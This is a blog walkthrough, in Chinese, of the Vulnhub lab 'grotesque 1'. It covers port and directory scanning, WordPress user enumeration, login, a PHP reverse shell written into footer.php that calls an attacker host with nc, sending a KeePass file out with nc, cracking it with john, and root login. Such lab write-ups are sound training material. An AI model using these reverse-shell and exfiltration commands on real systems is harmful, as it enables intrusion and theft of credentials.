 ```yaml
---
layout: post
title: grotesque 1
subtitle: grotesque 1
date: 2025-07-16 15:40
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. 环境搭建

[Vuluhub靶场IP问题 - Kyon-H Blog](https://blog.kyon.xin/2025/07/01/Vuluhub%E9%9D%B6%E5%9C%BAIP%E9%97%AE%E9%A2%98/)

## 2. 信息搜集

搜索IP，发现主机 `192.168.163.134`

![image.png](https://img.ghostliner.top/3k7JpE.png)

扫描端口发现66和80两个http端口

```shell
namp -T4 -A -p- 192.168.163.134
```

![image.png](https://img.ghostliner.top/BRzNRF.png)

扫描目录，发现80端口无内容，扫描66端口

```shell
dirsearch -u http://192.168.163.134:66/
```

![image.png](https://img.ghostliner.top/5eiLQC.png)

访问`changelog.txt`确定`vvmlist`版本为 `16.01.2021`

![image.png](https://img.ghostliner.top/ROdua0.png)

whatweb扫描网站

![image.png](https://img.ghostliner.top/jDnHct.png)

主页发现链接可以下载项目压缩包： <http://192.168.163.134:66/vvmlist.zip>

解压后打开

发现`sshpasswd.png`图片获取疑似用户名：`mossad`

网站主页发现特殊字符串，分析是`Brainfuck`代码

![image.png](https://img.ghostliner.top/r3vmo9.png)

解码得到 `/sshpasswd.png`

查看项目文件，在 `sense.md` 文件找到提示

![image.png](https://img.ghostliner.top/wrbRpk.png)

访问`/lyricsblog` 发现wordpress站点，F12发现提示，访问到图片

![image.png](https://img.ghostliner.top/5SqyhB.png)

![image.png](https://img.ghostliner.top/5Z2fmd.png)

扫描目录

```shell
dirsearch -u http://192.168.163.134/lyricsblog/ -e* -i 200
```

![image.png](https://img.ghostliner.top/FCr09S.png)

发现后台登录地址 `/lyricsblog/wp-login.php`

### 2.1. 获取用户名密码

wpscan扫描用户名，获取到 `erdalkomurcu`

```shell
wpscan --url http://192.168.163.134/lyricsblog/ -e u
# 保存
echo "erdalkomurcu" > user.txt
```

浏览站点发现与图片中文字相同的文章

![image.png](https://img.ghostliner.top/5bLaoe.png)

将文章内容保存到 `lyrics.txt` 计算其MD5值

![image.png](https://img.ghostliner.top/EUugLE.png)

转换为大写字符

```shell
echo "bc78c6ab38e114d6135409e44f7cdda2" | tr 'a-z' 'A-Z'
# BC78C6AB38E114D6135409E44F7CDDA2
```

使用用户名：`erdalkomurcu`，密码：`BC78C6AB38E114D6135409E44F7CDDA2` 登陆成功

## 3. 反弹shell

浏览页面找到可以注入PHP代码的位置

![image.png](https://img.ghostliner.top/HVIuKb.png)

在footer.php添加反弹shell代码

```php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');
```

![image.png](https://img.ghostliner.top/dPdexr.png)

kali执行 `nc -lvp 4444` 开启监听，并反弹成功

发现`raphael`用户目录下`user.txt`但无权查看

查找网站配置文件，发现数据库配置

![image.png](https://img.ghostliner.top/IuQs5f.png)

获得用户名：`raphael`，密码：`_double_trouble_`

尝试切换用户，成功

![image.png](https://img.ghostliner.top/A5msB5.png)

查看 `user.txt`文件，发现内容

![image.png](https://img.ghostliner.top/QbUVOK.png)

## 4. root提权

查看隐藏文件，发现 `.chadroot.kdbx`文件

![image.png](https://img.ghostliner.top/iPoLP3.png)

`.kdbx`为密码管理软件 `KeePass`生成的密码文件后缀名

传输到kali进行解密

```shell
# dc-9
nc 192.168.163.132 5555 < .chadroot.kdbx
# kali
nc -lvp 5555 >keepass
# 解密
keepass2john keepass | tee pass.txt
john pass.txt
```

![image.png](https://img.ghostliner.top/sl1TsA.png)

![image.png](https://img.ghostliner.top/zcN2b1.png)

解密得到 `chatter`

打开网站[KeeWeb](https://app.keeweb.info/)上传 `keepass`文件，输入密码 `chatter`，得到4组root密码

![image.png](https://img.ghostliner.top/hf1unI.png)

```
.:.yarak.:.
secretservice
.:.subjective.:.
rockyou.txt
```

使用 `.:.subjective.:.` 登录成功

![image.png](https://img.ghostliner.top/SXIzFt.png)

## 5. 获取flag

![image.png](https://img.ghostliner.top/jFA97D.png)
